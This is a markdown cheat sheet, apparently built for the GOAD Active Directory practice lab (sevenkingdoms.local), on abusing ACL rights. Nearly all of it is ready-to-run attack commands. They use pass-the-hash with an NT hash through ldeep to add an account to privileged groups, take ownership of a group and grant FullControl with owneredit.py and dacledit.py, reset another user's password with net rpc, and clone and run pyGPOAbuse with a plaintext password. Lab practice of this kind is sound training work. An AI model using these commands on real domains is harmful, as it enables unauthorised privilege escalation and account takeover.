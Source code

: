 ## Add self on Group
First find the distinguished name
```
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 search '(sAMAccountName=tyron.lannister)' distinguishedName
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 search '(sAMAccountName=Small Council)' distinguishedName
```

Add tyron to Small Council

`ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 add_to_group "CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local" "CN=Small Council,OU=Crownlands,DC=sevenkingdoms,DC=local"`

See the result
`ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 membersof 'Small Council' `

## AddMember on Group
`ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 add_to_group "CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local" "CN=DragonStone,OU=Crownlands,DC=sevenkingdoms,DC=local"`

## WriteOwner on Group
```
owneredit.py -action read -target 'kingsguard' -hashes ':b3b3717f7d51b37fb325f7e7d048e998' sevenkingdoms.local/tyron.lannister
owneredit.py -action write -owner 'tyron.lannister' -target 'kingsguard' -hashes ':b3b3717f7d51b37fb325f7e7d048e998' sevenkingdoms.local/tyron.lannister

dacledit.py -action 'write' -rights 'FullControl' -principal tyron.lannister  -target 'kingsguard' 'sevenkingdoms.local'/'tyron.lannister' -hashes ':b3b3717f7d51b37fb325f7e7d048e998'

ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 add_to_group "CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local" "CN=kingsguard,OU=Crownlands,DC=sevenkingdoms,DC=local"
```

## Generic all on user
`net rpc password stannis.baratheon --pw-nt-hash -U sevenkingdoms.local/tyron.lannister%b3b3717f7d51b37fb325f7e7d048e998 -S kingslanding.sevenkingdoms.local`

## GenericAll on Computer
Use Resource Based Constrained Delegation 

## GPO abuse
```
git clone https://github.com/Hackndo/pyGPOAbuse.git
python3 -m virtualenv .venv
source .venv/bin/activate
python3 -m pip install -r requirements.txt

#We get the id from bloodhound and launch the exploit
python3 pygpoabuse.py north.sevenkingdoms.local/samwell.tarly:'Heartsbane' -gpo-id "6F8BD644-2C29-418C-93F1-FE926F91F6B4"

```